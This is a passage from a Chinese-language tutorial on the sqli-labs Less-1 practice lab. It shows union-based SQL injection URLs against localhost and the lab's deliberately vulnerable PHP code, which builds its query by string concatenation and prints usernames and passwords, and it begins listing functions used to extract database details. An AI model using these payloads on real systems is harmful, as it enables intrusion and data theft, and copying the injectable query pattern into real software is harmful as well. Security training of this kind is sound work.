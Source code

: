 这个就提示我们确定了没有第四列，接下来使用union来查询：

http://127.0.0.1/Less-1/?id=1'union select 1,2,3%23

<img src="C:/Users/Administrator/Desktop/%7B%7B%20site.url%20%7D%7D/assets/blog_images/sqli-labs_01_06.png" />

在mysql_fetch_array()函数只被调用了一次，而mysql_fetch_array() 函数从结果集中取得一行作为关联数组，或数字数组，或二者兼有，具体可以看<http://www.w3school.com.cn/php/func_mysql_fetch_array.asp>，所以这里无论怎么折腾最后只会出来第一行的查询结果 

```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
echo "你的sql语句是：".$sql."<br>";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);

	if($row)
	{
  	echo "<font size='5' color= '#99FF00'>";
  	echo 'Your Login name:'. $row['username'];
  	echo "<br>";
  	echo 'Your Password:' .$row['password'];
  	echo "</font>";
  	}
	else 
	{
	echo '<font color= "#FFFF00">';
	print_r(mysql_error());
	echo "</font>";  
	}
}
	else { echo "Please input the ID as parameter with numeric value";}

?>
```

 那么我们只要让第一行查询的结果是空集（即union左边的select子句查询结果为空），那么我们union右边的查询结果自然就成为了第一行，就打印在网页上了，这个id他一般传的是数字，而且一般都是从1开始自增的，我们可以把id值设为非正数（负数或0），浮点数，字符型或字符串都行：

http://127.0.0.1/Less-1/?id=-1'union select 1,2,3%23

http://127.0.0.1/Less-1/?id=0'union select 1,2,3%23

http://127.0.0.1/Less-1/?id=abcd'union select 1,2,3%23

结果都是一样的

 <img src="C:/Users/Administrator/Desktop/%7B%7B%20site.url%20%7D%7D/assets/blog_images/sqli-labs_01_07.png" />

接下来我们就利用 2，3来查询数据库的信息，需要用到的函数有：

concat_ws（）：从数据库里取N个字段，然后组合到一起用符号分割显示，第一个参数剩余参数间的分隔符

char（）：将十进制ASCII码转化成字符

user（）：返回当前数据库连接使用的用户

database（）：返回当前数据库连接使用的数据库
